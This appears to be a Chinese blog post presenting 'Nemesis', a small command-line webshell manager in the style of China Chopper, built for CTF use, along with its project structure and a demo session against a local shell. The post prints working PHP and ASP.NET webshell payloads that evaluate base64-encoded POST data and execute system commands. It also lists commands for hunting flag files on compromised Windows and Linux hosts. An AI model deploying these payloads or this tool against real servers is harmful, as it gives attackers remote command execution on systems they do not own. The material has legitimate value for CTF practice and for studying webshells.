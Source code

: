 ```yaml
---
title: Nemesis (Cli Webshell Manager)
summary: 编写了一个方便网管管理网站的命令行工(cai)具(dao)
featured-img: caidao 
layout: post
---
```


![](https://upload-images.jianshu.io/upload_images/11356161-0bbf5ccf3bc5e0df.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

借文吐槽补天的漏洞审核，通用模版的管理页面存储XSS，弹出来的管理员cookie都给你看了，补天的大哥还睁着眼说问题不大？？？

***

### 造轮子，命令行菜刀

P.s. 下一个轮子想用`Golang`写一个内网穿透`B/S`工具

***

### 关于此项目

玩具属性，总共也就不到500行代码

本文主要写开发过程的问题，具体使用方法及功能见：

[项目地址](https://github.com/EddieIvan01/Nemesis)

***

项目目录：

```
Nemesis/
    |____nemesis.py            # Manager类，主循环函数
    |____config.json           # Manager模式的Webshell列表配置文件
    |____exploit/
            |____ __init__.py
            |____exp.py        # Windows/Linux两个系统的EXP类，继承自基类BaseEXP
            |____payload.py    # http payload
```

程序分为两种模式：

1. Manager Mode
   读取config.json配置文件，程序入口进入Manager交互，有可选项如切换编码/shell密码，自动寻找Flag，进入交互式shell

2. Shell Mode
   单一shell模式，程序直接进入shell交互

程序架构：

`exploit`包中为http payload相关实现，`WindowsEXP/LinuxEXP`两个类，继承自`BaseEXP`，基类中实现了主要的发送payload等功能。生成payload函数在`payload.py`，根据语言生成参数化payload，为不同系统填入不同指令

`nemesis.py`定义了`Manager`类，提供了管理shell，交互式命令行等等功能

***

菜刀的Payload，可详见`Nemesis/payload.py`

```php
ck = @eval(base64_decode($_POST[a0]));
        
a0 = @ini_set("display_errors","0");
	@set_time_limit(0);
    @set_magic_quotes_runtime(0);echo("->|");
    ;
    $s=base64_decode($_POST["a1"]);
    @system($s);
    die();
        
a1 = whoami
```

```asp
ck = eval(Request.Item["a0"],"unsafe");
a0 = Response.Write("->|");
    var err:Exception;
    try{
    var c="cmd";
    var e=new System.Diagnostics.Process();
    var out:System.IO.StreamReader,EI:System.IO.StreamReader;
    c.UseShellExecute=false;
    c.RedirectStandardOutput=true;
    c.RedirectStandardError=true;
    e.StartInfo=c;
    c.Arguments="/c "+System.Text.Encoding.GetEncoding(65001).GetString(System.Convert.FromBase64String(Request.Item["a1"]));
    e.Start();
    out=e.StandardOutput;
    EI=e.StandardError;
    e.Close();
    Response.Write(out.ReadToEnd()+EI.ReadToEnd());
    }catch(err){
    Response.Write("ERROR:// "+err.message);
    }
    Response.End();
a1 = whoami
```

***

关于自动找Flag功能：

记得又一次比赛拿到shell了确花了好几分钟找flag文件在哪儿（骂），所以写了这个功能

在`Manager Mode`下，输入`flag`，然后交互式输入`shell index`，输入盘符/目录，即可自动寻找文件名中带`flag`的文件，并自动读取其中内容正则匹配`/(\w+\{[-\w]+\})/`，成功则输出

`Windows`下自动寻找文件的指令

`for /r c:\ %i in (flag.*) do @echo %i`，说起来这还是给学校网站做渗透测试时候get到的姿势

`Linux`下

`find / -name flag.*`

```
> python3 nemesis.py
         _   _                                   _
        | \ | |   ___   _ __ ___     ___   ___  (_)  ___
        |  \| |  / _ \ | '_ ` _ \   / _ \ / __| | | / __|
        | |\  | |  __/ | | | | | | |  __/ \__ \ | | \__ \
        |_| \_|  \___| |_| |_| |_|  \___| |___/ |_| |___/

             /* Webshell Manager */

[+]Initialize...

[*]Manager mode command:
     enter [index]                       --choose a shell to use
     set [index]:[encode | pwd] xxx      --change shells' encode or passwd
     flag                                --find flag in ctf
     exit

[*]Webshell list
[0] URL => http://127.0.0.1/shell.php   PWD =>pass   OS => win   ENCODE => gbk

@Nemesis> flag
[+]Enter index: 0
[+]Enter dir: f

[+]Flag files:
f:\flag
f:\HackTo0ls\审计\GitHack\web.jarvisoj.com_32798\templates\flag.php
f:\tim_recv_file\MobileFile\flag.py
f:\tim_recv_file\MobileFile\flag.txt

[+]Flag found in f:\flag: abc{asdasd798yh9da7yas9dy7}

[+]No flag found in: f:\HackTo0ls\审计\GitHack\web.jarvisoj.com_32798\templates\flag.php

[+]No flag found in: f:\tim_recv_file\MobileFile\flag.py

[+]No flag found in: f:\tim_recv_file\MobileFile\flag.txt


[*]Webshell list
[0] URL => http://127.0.0.1/shell.php   PWD =>ck   OS => win   ENCODE => gbk

@Nemesis>
```

